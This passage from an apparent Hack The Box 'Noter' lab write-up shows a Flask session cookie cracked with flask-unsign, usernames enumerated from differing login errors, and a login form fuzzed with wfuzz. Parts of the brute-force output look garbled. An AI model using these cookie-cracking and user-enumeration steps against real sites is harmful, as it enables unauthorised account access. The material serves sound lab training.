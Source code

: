 Once we login, we notice that we have a session cookie. 

![Registration and cookie](cookie.png)
_Registration and cookie_

We can use `flask-unsign` to decode the cookie and try to find the secret it was signed with:

```console
┌──(bitis㉿workstation)-[~/htb/Machines/noter]
└─$ flask-unsign -d -c eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoidGVzdCJ9.Yrc3eg.PuthvwTy0NMMCxNs8N_GneHU-9c
{'logged_in': True, 'username': 'test'}

┌──(bitis㉿workstation)-[~/htb/Machines/noter]
└─$ flask-unsign -u -c eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoidGVzdCJ9.Yrc3eg.PuthvwTy0NMMCxNs8N_GneHU-9c
[*] Session decodes to: {'logged_in': True, 'username': 'test'}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (2048): -----BEGIN PRIVATE KEY-----gt;
[*] Attempted (11136): Z5Ke168AcyTrZwlNW3OZ1H87liw3Of
[+] Found secret key after 18560 attemptsMy_API_Key>e
'secret123'
```
We have now found the secret key used to sign the session cookie. This means that we can create our own cookie, potentially login in as other users on the site. To enumerate users, we can use the login functionality of the site. If we attempt to login with a invalid user name, the application tells us "Invalid crdentials"

![invalid crdentials ](invalidCredentials.png)

However if we attempt to login as a existing user but with a wrong password we get told "Invalid login"

![invalid login](invalidLogin.png)

We can use wfuzz to fuzz the application for valid usernames like so:

```console
┌──(bitis㉿workstation)-[~/htb/Machines/noter]
└─$ wfuzz -u 'http://noter.htb:5000/login' -X POST -d 'username=FUZZ&password=aaaadwhadw' -w /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt --hs "Invalid credentials"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://noter.htb:5000/login
Total requests: 8295455

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000113:   200        68 L     110 W      2032 Ch     "blue"                                                                                                                                                                     
000007198:   200        68 L     110 W      2032 Ch     "Blue"             
```
As we can see from the output of wfuzz we have found two usernames, "blue" and "Blue". We can then sign a flask cookie using `flask-unsign` once more. 
